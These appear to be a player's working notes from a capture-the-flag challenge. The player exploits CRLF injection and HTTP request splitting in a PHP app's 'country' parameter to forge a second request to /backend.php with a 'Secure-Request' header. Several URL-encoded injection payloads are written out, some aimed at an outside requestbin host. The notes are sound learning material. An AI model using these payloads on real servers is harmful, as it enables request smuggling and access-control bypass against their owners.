 - tried first with several characters, ' " ` and #
    - `#` gives a warning that the web server had a request error, showing some of the response made internally to /backend.php but not of much use
    - probably not a cache poisoning or proxy parsing discrepancy vuln, as there is no cache and it is clear that there is a PHP request being made from the PHP script

- "works.php" gives away that there is a possibilty for request splitting, using CRLF which is url encoded as %0d%0a
- tried some basic payloads for "country" with burp. See if I can make a request to my requestbin. This payload gives two responses:
```
NL%0d%0aContent-Length:%200%0d%0a%0d%0aGET%20/backend.php%20HTTP/1.1%0d%0aHost:%20enipetl9joz2p.x.pipedream.net%0d%0a%0d%0a
```
    - a 404 and a 400
        - the 400 is likely due to the secend request being a GET request instead of a POST
            - confirmed, changing to POST returns the NL flag
```
VU%0d%0aContent-Length:%200%0d%0a%0d%0aPOST%20/backend.php%20HTTP/1.1%0d%0aHost:%20enipetl9joz2p.x.pipedream.net%0d%0a%0d%0a
```
- went over the list of flags, saw VU flag but needs the "Secure-Request" header to be set
- tried to inject the Secure-Request header manually
```
NL%0d%0aContent-Length:%200%0d%0a%0d%0aGET%20/backend.php%20HTTP/1.1%0d%0aSecure-Request:%20enipetl9joz2p.x.pipedream.net%0d%0a%0d%0a
```
- tried with different hosts
```
country=VU%0d%0aGET%20/backendje.php%20HTTP/1.1%0d%0aHost:%20localhost:62886
```

- this seems to work sometimes, using the above payloads gave me two responses so request splitting definitely works, but still no way to set the endpoint. When I change GET into POST, everything works normally and have nothing to explore further

- know that country=# would give an error, so try to replicate that in my normal POST request to index.php (which also runs on apache, so should give the same error for the same payload)
    - inserting a # into any header does not cause an error
    - inserting a # into the POST body does not cause an error
    - inserting a # into the path does cause an error!! (i.e. `POST /K59z1TeP/cgi-bin/index.php# HTTP/1.1`)
        - so this probably means that `country` is injected as GET parameter, like so: `POST /backend.php?country=$country HTTP/1.1`
            - then experimenting is easy, nice. Can follow closely with my first POST request to see if expected output matches
                - first tried setting country to `VU%20HTTP/1.1` which crashes as expected (becomes `POST /backend.php?country=VU HTTP/1.1 HTTP/1.1`)
                - so need to move the second "leftover" HTTP/1.1 to the next line, to make it become meaningless and not cause request errors
                    - this can be done by making it a header value. we want to set the Secure-Request anyway so this solves two problems in one
                        - tried setting country to `VU%20HTTP/1.1%0d%0aSecure-Request:%20` which would become  
                            `POST /backend.php?country=VU HTTP/1.1 
                             Secure-Request: HTTP/1.1`
                             due to the line break introduced by CRLF (%0d%0a)
                            - did not work
                                - stupid, added the %20 at the end for a space between header and value but that space was already there
                                - so setting country to `VU%20HTTP/1.1%0d%0aSecure-Request:` did work
    